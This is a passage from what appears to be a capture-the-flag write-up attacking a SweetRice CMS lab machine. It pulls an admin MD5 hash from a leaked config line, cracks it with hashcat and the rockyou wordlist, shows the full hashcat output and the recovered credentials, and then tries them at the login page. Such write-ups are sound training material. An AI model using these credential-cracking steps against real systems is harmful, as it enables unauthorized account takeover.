 Let's look closely at this.. There's one line that sticks out right away.

```
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

It looks like there's an admin user called ``manager`` and a password to go with it. ~~i spent a surprisingly large amount of time on this next part but~~ the password there is a md5 hash. I was able to verify this using an online hash identify tool. Let's crack it with the best password cracking tool ``hashcat``:

## Cracking Passwords with Hashcat

```
echo "42f749ade7f9e195bf475f37a44cafcb" > hash
```

```
hashcat -m 0 hash /usr/share/wordlists/rockyou.txt
```

```
42f749ade7f9e195bf475f37a44cafcb:Password123     
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 42f749ade7f9e195bf475f37a44cafcb
Time.Started.....: Thu Oct  8 20:50:12 2020 (1 sec)
Time.Estimated...: Thu Oct  8 20:50:13 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   190.0 kH/s (0.38ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 32768/14344385 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: dyesebel -> loserface1

Started: Thu Oct  8 20:50:08 2020
Stopped: Thu Oct  8 20:50:14 2020
```

We have credentials!

```
manager:Password123
```

## Exploiting SweetRice cont.

Let's test these back at the login page...

![screenshot](https://i.imgur.com/8N4c56l.png)
